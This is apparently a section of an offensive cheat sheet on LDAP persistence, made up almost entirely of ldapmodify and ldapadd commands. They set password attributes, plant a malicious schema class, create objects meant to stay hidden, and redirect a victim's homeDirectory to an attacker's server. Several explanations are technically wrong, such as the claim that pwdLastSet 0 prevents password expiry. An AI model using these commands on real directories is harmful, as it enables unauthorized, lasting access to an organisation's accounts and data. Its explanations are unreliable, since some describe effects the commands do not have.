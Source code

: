 ## 11. LDAP Persistence Techniques (Sophisticated Methods)

#### 11.1 Persistent Access via LDAP Operational Attributes
- **Set Operational Attributes**: Modifies operational attributes such as `pwdLastSet` to prevent password expiry, ensuring persistent access for an account.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<persistent_user>,DC=domain,DC=com
  changetype: modify
  add: pwdLastSet
  pwdLastSet: 0
  EOF
  ```

#### 11.2 Manipulating LDAP Schema for Persistence
- **Schema Manipulation**: Adds a new object class to the LDAP schema, potentially allowing the creation of custom objects that serve as backdoors or hidden administrative controls.
  ```b
  ldapmodify -x -H ldap://<target_ip> -D "CN=Schema Admin,CN=Users,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<malicious_object_class>,CN=Schema,CN=Configuration,DC=domain,DC=com
  changetype: add
  objectClass: top
  objectClass: classSchema
  EOF
  ```

#### 11.3 Creating Hidden LDAP Objects
- **Create Hidden Objects**: Creates a hidden object in LDAP by setting its `objectClass` and `displayName` attributes in such a way that it may not appear in standard directory searches.
  ```b
  ldapadd -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=hidden_object,DC=domain,DC=com
  objectClass: top
  objectClass: container
  displayName: hidden_object
  EOF
  ```

#### 11.4 Hijacking LDAP Attribute Values
- **Attribute Value Hijacking**: Hijacks specific attribute values such as `homeDirectory` to redirect user file paths or data streams to an attacker-controlled server.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  replace: homeDirectory
  homeDirectory: \\<attacker_server>\share
  EOF
  ```

#### 11.5 LDAP TTL (Time-to-Live) for Persistence
- **Set LDAP Object TTL**: Sets the `entryTtl` (Time-to-Live) for an LDAP object to enforce timed persistence, allowing the object to exist for a specified duration before self-deletion.
  ```b
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  add: entryTtl
  entryTtl: 3600
  EOF
  ```
